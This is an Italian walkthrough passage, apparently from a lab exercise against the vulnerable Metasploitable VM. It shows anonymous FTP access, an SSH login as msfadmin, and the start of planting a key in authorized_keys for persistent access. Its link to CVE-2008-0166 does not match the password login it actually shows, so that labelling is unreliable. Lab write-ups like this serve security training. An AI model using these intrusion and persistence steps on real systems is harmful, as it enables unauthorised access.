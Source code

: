 Il servizio FTP consente il login anonimo, offrendo un accesso iniziale al sistema.

1. Connettiti al server FTP usando l'utente `anonymous` e una password vuota:

```bash
ftp 172.16.49.231
```

Inserisci `anonymous` quando richiesto il nome e premi Invio per la password (vuota).

2. Dopo il login, vedrai il prompt FTP:

```
Connected to 172.16.49.231.
220 (vsFTPd 2.3.4)
Name (172.16.49.231:luca): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Questo accesso permette di esplorare il file system e, potenzialmente, caricare o scaricare file.

## Exploiting SSH con Chiavi Deboli 🔑

La macchina è vulnerabile alla "Debian OpenSSL Predictable Random Number Generator Vulnerability" (CVE-2008-0166), che consente di prevedere le chiavi SSH.

1. Connettiti via SSH come utente `msfadmin` usando l'algoritmo `ssh-rsa`:

```bash
ssh -oHostKeyAlgorithms=+ssh-rsa msfadmin@172.16.49.231
```

2. Inserisci la password conosciuta per `msfadmin`. Una volta autenticato, ottieni una shell:

```
msfadmin@172.16.49.231's password:
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
...
msfadmin@metasploitable:~$ whoami
msfadmin
```

## Configurazione di Accesso Persistente via SSH 🛡️

Per semplificare gli accessi futuri, aggiungi la tua chiave pubblica al file `authorized_keys` della macchina target.

1. Genera una coppia di chiavi SSH sulla tua macchina locale:

```bash
ssh-keygen -t ed25519 -C "luca@172.20.253.60"
```

Segui i prompt per salvare la coppia di chiavi:
